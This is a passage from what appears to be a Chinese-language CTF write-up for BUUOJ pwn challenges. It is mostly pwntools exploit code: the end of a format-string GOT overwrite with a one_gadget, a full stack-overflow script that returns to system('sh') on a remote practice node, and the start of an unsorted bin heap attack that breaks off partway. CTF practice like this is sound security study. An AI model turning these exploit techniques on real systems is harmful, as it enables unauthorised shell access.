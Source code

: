 ```python
print(hex(read_addr))

setoff = read_addr - 0x0d4350
one_gadget = setoff + 0x3a812
payload1 = 'a' + fmtstr_payload(8, {read_got: one_gadget},write_size = "byte",numbwritten = 0xa)
p.sendline(payload1)
p.sendline('cat flag')
p.interactive()
```



## wustctf2020_getshell_2

栈溢出

```python
from pwn_debug import *
context.log_level = 'debug'

pdbg = pwn_debug('./wustctf2020_getshell_2')

pdbg.local('/home/xyc/share/s/libc-2.23_x86.so')
pdbg.remote('node4.buuoj.cn', 26170)

p = pdbg.run('remote')
sys = 0x08048529
sh = 0x08048670
payload = b'a'*(0x18+0x4) + p32(sys) + p32(sh)
p.sendline(payload)
p.interactive()
```



## hitcontraining_magicheap

[ZJCTF 2019]EasyHeap弱化版

方法同unsorted bin attack

```python
from pwn_debug import *
context.log_level = 'debug'

p = process(['/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so','./magicheap'],env={"LD_PRELOAD":"/home/xyc/libc/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})
#p = remote('node4.buuoj.cn', 25492)
elf = ELF('./magicheap')

def add(size, content):
	p.recvuntil('Your choice :')
	p.sendline('1')
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap:')
	p.sendline(content)

def edit(index, size, content):
	p.recvuntil('Your choice :')
	p.sendline('2')
	p.recvuntil('Index :')
	p.sendline(str(index))
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap : ')
```